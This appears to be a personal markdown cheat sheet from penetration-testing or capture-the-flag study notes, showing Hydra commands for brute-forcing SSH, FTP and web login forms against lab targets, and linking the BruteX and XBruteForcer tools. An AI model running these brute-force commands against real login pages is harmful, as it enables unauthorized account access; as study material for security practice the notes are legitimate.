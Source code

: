 # Hydra

* Hydra for SSH and FTP   
	```
	hydra -l [USER NAME] -p [PASSWORD] [IP ADDRESS] -t [NUMBER OF THREADS] [SSH OR FTP]
	```   

* To use a wordlist of usernames we can use the option `-L` and if you want a wordlist of password instead of just one use the option `-P`.

* I also found this code somewhere while I was researching (didn't really work with me). I'm documenting it here in case I needed to use some other time and it came into handy   
```
hydra -l admin -P /home/kali/mywordlist ignition.htb http-port-form "/admin?form_key=uCAJwNW5TywTQ3U8&login%5Busername%5D=^USER^&login%5Bpassword%5D=^PASS^"

//or this one   

hydra -l admin -P /usr/share/wordlists/rockyou.txt testasp.vulnweb.com http-post-form "/Login.asp?RetURL=%2FDefault%2Easp%3F:tfUName=^USER^&tfUPass=^PASS^:S=logout" -vV -f

//or this  

hydra -l admin -P /home/kali/Documents/cloned_reps/SecLists/Passwords/2020-200_most_used_passwords.txt -vV -f -t 5 10.129.157.36 http-post-form "/\\login:j_username=^USER^&j_password=^PASS^:loginError"
```  

	
### BruteX   
* Can be used to bruteforce passwords.
* Check out the code on Github through <a href="https://github.com/1N3/BruteX">this link</a>

### XBruteForcer   
* To bruteforce certain Content management systems. Taken from the official github page "Brute Force Tool 🔓 WordPress , Joomla , DruPal , OpenCart , Magento".
* Check out the github page <a href="https://github.com/Moham3dRiahi/XBruteForcer">here</a> .


<!--@nested-tags:brute_force/passwords-->